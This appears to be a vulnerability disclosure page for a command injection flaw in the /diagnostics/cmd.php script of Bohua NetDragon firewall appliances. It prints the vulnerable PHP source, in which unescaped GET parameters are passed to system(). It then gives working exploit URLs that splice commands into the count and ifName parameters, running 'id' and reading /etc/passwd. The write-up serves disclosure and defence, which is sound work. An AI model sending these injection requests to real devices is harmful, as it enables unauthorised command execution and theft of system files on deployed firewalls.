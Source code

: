 # Bohua NetDragon Firewall cmd.php Remote Command Execution Vulnerability (OEM)

## Vulnerability Description

Bohua NetDragon firewall cmd.php is insufficient filtering, resulting in command stitching and execution of remote commands

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Bohua NetDragon Firewall</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Bohua Netlong Information Security All-in-one Machine</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Bohua Longxin Firewall</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628671069270-2a8e5aae-ad02-4773-b7f4-769978f212d9.png)

The vulnerable file is `/diagnostics/cmd.php`

```php
<?php
    include_once("pub/pub.inc");
    include_once("pub/session.inc");
    
    $username = $_SESSION["USER_NAME"];
    checkApproachUrl(); 
    
  if($_GET['action'] == "ping")
  {
        $host = $_GET['host'];
        $count = $_GET['count'];
        system("/bin/ping -c $count " . escapeshellarg($host)." >temp.htm");
        
         if($username)
            pSyslog("ping $host $count次", 0);           
  }
  else if($_GET['action'] == "traceroute")
  {
        $host = $_GET['host'];
        $ttl =  $_GET['ttl'];
        $useicmp = $_GET['useicmp'];
        
        if($useicmp)
            $useicmp = "-I";
        else
            $useicmp = "";        
        system("/usr/bin/traceroute -d $useicmp -w 2 -m " . escapeshellarg($ttl) . " " . escapeshellarg($host)." >temp.htm");    
        if($username)
            pSyslog("traceroute $host 跳数为$ttl", 0);     
  }
  else if($_GET['action'] == "arping")
  {
    $host = $_GET['host'];
    $count = $_GET['count'];
    $if = $_GET['ifName'];
    $src = $_GET['src'];
    system("/usr/bin/arping -I $if -c $count -s $src $host >temp.htm");
    
     if($username)
        pSyslog("arping $host $count次", 0);
  }
  else
  {
    system("echo \"\" >temp.htm");
  } 
?>
```

You can find that there are multiple command execution points, all of which can be spliced ​​to execute malicious commands.

Construct command execution

```php
/diagnostics/cmd.php?action=ping&count=||id||
/diagnostics/cmd.php?action=arping&ifName=|cat /etc/passwd||
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628671453310-0bb29dd0-00b6-4f75-b6e8-3103b6ebbcdc.png)

